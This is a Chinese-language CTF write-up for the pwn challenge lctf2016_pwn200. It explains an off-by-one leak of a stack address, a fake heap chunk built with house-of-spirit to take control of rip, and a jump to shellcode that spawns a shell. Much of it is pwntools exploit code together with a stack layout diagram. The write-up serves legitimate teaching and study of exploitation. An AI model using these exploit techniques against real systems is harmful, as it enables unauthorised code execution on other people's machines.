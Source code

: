 

### lctf2016_pwn200
首先不难发现读入 `name` 时存在 off-by-one，可以借此泄露栈地址。为了后面 ret2shellcode，我们可以先在 `name` 里顺便写好 shellcode：
```python
payload = asm(shellcraft.sh()).ljust(48,'a')
sa('u?\n',payload)
ru(payload)
rbp = uu64(ru(', w',True))
leak('rbp',rbp)
```

而读入 `money` 时，恰好可以覆盖到堆指针 `dest`。那么可以覆盖 `dest` 为我们伪造的 chunk，同时准备好 `id`（只需要大于 0x10 小于 0x21000 即可）作为 `nextsize`，这样就可以先释放再申请这个 fake chunk，就可以控制 rip 了，最后覆盖 rip 为 shellcode 地址。

通过 gdb 调试，可以绘制大致的栈结构图：
```
 ------------ <- leaked rbp
|            | 0x20
 ------------ <- rbp
| shellcode  | 0x30
 ------------ <- shellcode_addr  --
| 0x20       | id                 |
 ------------                     |
|            |                    |
 ------------                     |
| rip        |                    | 0x40
 ------------                     |
| rbp        |                    |
 ------------                     |
| dest       |                    |
 ------------ <- fake            --
| 0x41       |
 ------------
| prev_size  |
 ------------
| ...        |
```

由此可以得到：
```python
sc = rbp-0x50
fake = rbp-0x90
```

从而伪造堆块：
```python
sla('id ~~?\n',str(0x20))
sa('money~\n',p64(0)*4+flat(0,0x41,0,fake))

sla('choice :','2') # free
sla('choice :','1') # malloc
sla('long?',str(0x30)) # + 0x10 = 0x40
ru('48')
sl(flat('a'*0x18,sc))
sla('choice :','3')
```
